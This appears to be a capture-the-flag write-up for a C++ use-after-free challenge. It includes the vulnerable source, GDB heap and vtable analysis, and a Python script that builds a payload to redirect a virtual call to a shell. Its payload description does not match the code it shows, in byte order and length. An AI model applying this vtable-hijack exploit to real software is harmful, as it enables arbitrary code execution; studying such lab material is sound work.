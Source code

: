 ### Analysis

The program uaf.cpp has a simple switch that creates two objects (Man and Woman), which call methods from their respective vtables. It also reads a file of our choice and allocates that data. The program provides control over which function to call via a switch case.

```C
#include <fcntl.h>
#include <iostream> 
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};

class Man: public Human{
public:
        Man(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
        Human* m = new Man("Jack", 25);
        Human* w = new Woman("Jill", 21);

        size_t len;
        char* data;
        unsigned int op;
        while(1){
                cout << "1. use\n2. after\n3. free\n";
                cin >> op;

                switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
        }

        return 0;
}
```

We want to call the give_shell() method instead of introduce().

Using GEF (GDB Enhanced Features), we can analyze the binary. After disassembling the main function, we find that before the creation of an object, a new heap chunk is created.
 
```bash
   0x0000000000400f00 <+60>:    call   0x400d90 <operator new(unsigned long)@plt>
   0x0000000000400f05 <+65>:    mov    rbx,rax
   0x0000000000400f08 <+68>:    mov    edx,0x19
   0x0000000000400f0d <+73>:    mov    rsi,r12
   0x0000000000400f10 <+76>:    mov    rdi,rbx
   0x0000000000400f13 <+79>:    call   0x401264 <Man::Man(std::basic_string<char, std::char_traits<char>, std::allocator<char> >, int)> 
```

If we set a breakpoint after calling the `Man()` constructor, we can use `heap chunks` to inspect them.

```bash
Chunk(addr=0x6152e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000006152e0     70 15 40 00 00 00 00 00 19 00 00 00 00 00 00 00    p.@.............]
```

This tells us, that we have created a heap chunk on address `0x6152e0`, with size `0x20` (32, size passed to `new()` was 18 but due to 8 or 16 byte alingment (based on system) it grows to 32)

We can examine the chunk using `x/xg 0x6152e0` and see the address to vtable. 

```bash
gef➤  x/4xg 0x0000000000401570
0x401570 <vtable for Man+16>:   0x000000000040117a      0x00000000004012d2
0x401580 <vtable for Human>:    0x0000000000000000      0x00000000004015f0
```

The two addresses in the vtable are for the methods `give_shell()` and `introduce()`. We can examine them to confirm this.

```bash
gef➤  x/xg 0x000000000040117a
0x40117a <Human::give_shell()>: 0x10ec8348e5894855
```

After using the program with the third option (delete), we can examine the chunk again and see that the vtable address is erased, but the vtable itself still contains addresses to the virtual functions. 
We can also use `heap bins` to see freed chunks and their sizes.

```bash
gef➤  heap bins
──────────────────────────────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ────────────────────────────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x20, count=2] ←  Chunk(addr=0x615330, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x6152e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
Tcachebins[idx=1, size=0x30, count=2] ←  Chunk(addr=0x615300, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x6152b0, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 

```

### Exploit

If the freed chunks are the same size as the new data we want to allocate, our heap manager will reuse those old heap chunks. Using this behavior, we can use option `2` to allocate a `data` array with a size of `0x18` (24 bytes, the same size as our previous data). This allocation will overwrite the `Man` and `Woman` chunks. After this, we can use option `1` to call the `introduce()` method; however, due to the overwritten vtable, it will incorrectly call `give_shell()` instead.

If we create a file containing 24 characters and use it as an argument file for our program, we can see that `heap chunks` are reused by using options `3` and then `2`. This shows that our heap chunks were reused.

Additionally, we need to reuse the `Woman` chunk to prevent our program from segfaulting. To achieve this, we simply need to use option `2` twice, allowing us to allocate two objects.

The last piece of the puzzle is understanding how `m->introduce()` works. It first accesses the vtable address, which points to two addresses, and then calls `(*vtable) + 8`. To call `give_shell()` instead of `introduce()`, we set `vtable_address` to `vtable_address - 8`, which is `0x0000000000401568`.

This python code will write our exploit, that has 16 characters followed by address of our function address.

```Python
with open("./tmp", "wb") as f:
    f.write(b'\x68\x15\x40\x00\x00\x00\x00\x00\x00' + 16* b'Y' )
```

After running this script, we can call:

```bash
./uaf 24 tmp
```
and then use options `3`, `2`, `2`, `1` to access shell.
